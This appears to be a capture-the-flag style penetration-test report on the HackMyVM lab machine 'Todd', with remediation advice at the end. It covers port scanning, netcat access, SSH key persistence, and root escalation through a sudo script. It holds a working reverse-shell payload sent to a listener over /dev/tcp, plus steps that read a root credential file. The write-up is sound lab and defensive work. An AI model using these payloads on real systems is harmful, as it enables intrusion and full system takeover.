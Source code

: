 
📑 Finding Report: User Access and Privilege Escalation
Machine: Todd – HackMyVM

🟢 Executive Summary
Severity: High

Description:
Access was obtained as user todd through a Netcat connection on an exposed port (7066). Privilege escalation to root was later achieved by exploiting a logical vulnerability in a script executable via sudo, which allowed reading the /root/.cred file and gaining full system access.

🖥️ Scope and Environment
Platform: HackMyVM
Machine: Todd (Linux – Easy)
Assigned IP: 192.168.1.135
Analysis Date: 04/05/2025

🛠 Tools Used

nmap

nc

ssh

sudo

Manual enumeration scripts

🔍 Finding Description

4.1 Port Scanning

nmap -sS -sV -oN todd_nmap.txt 192.168.1.135
The following ports were identified:

22/tcp – OpenSSH

80/tcp – HTTP

7066/tcp – Undocumented service

4.2 User Access as todd via Netcat

nc 192.168.1.135 7066
The system granted automatic access as user todd, enabling reading of the user.txt file and initial system enumeration.

4.3 Persistent Access via SSH Key
To simplify access, an SSH key was generated and the public key was copied to the todd user:

ssh-keygen  
ssh-copy-id todd@192.168.1.135

4.4 Sudo Privileges Enumeration
Running sudo -l revealed the following commands executable without a password:

(ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh  
(ALL : ALL) NOPASSWD: /usr/bin/rm  
(ALL : ALL) NOPASSWD: /usr/sbin/reboot
🧪 Proofs of Concept (PoC)

5.1 Privilege Escalation via RCE in Script (Based on NUTZH)
The /srv/guess_and_check.sh script contained a vulnerability in an arithmetic operation that could be exploited using a reverse shell:

>>> N[$(/bin/bash -i >& /dev/tcp/192.168.56.105/9001 0>&1)]

Listener:
nc -vlnp 9001
Result: Shell as root.

5.2 Alternative Escalation via Weak Logic

Vulnerable Script Content:

a=$((RANDOM%1000))  
read -p ">>> " input_number  
[[ $input_number -ne "$a" ]] && exit 1  
true_file="/tmp/$((RANDOM%1000))"  
false_file="/tmp/$((RANDOM%1000))"  
[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred
Strategy: Create multiple files in /tmp to increase the chance of hitting the condition:

for i in {1..800}; do touch /tmp/$i; done

Script Execution:

sudo /bin/bash /srv/guess_and_check.sh

When the condition is met, /root/.cred is printed.

Root Access:

su  
Password: [contents of /root/.cred]
🔐 Impact
Critical. This vulnerability allows:

Initial access without authentication via an undocumented service

Full privilege escalation from a low-privileged user

Total system compromise, affecting both confidentiality and integrity

🛡 Recommendations

Close or secure port 7066 if not essential

Remove or fix scripts like guess_and_check.sh:

Avoid using command execution within arithmetic expressions

Do not base access decisions on uncontrolled temporary files

Remove NOPASSWD permissions for dangerous commands such as rm, bash, or reboot

Apply hardening policies for scripts with elevated permissions

Monitor usage of sudo-executed scripts and traffic to uncommon ports







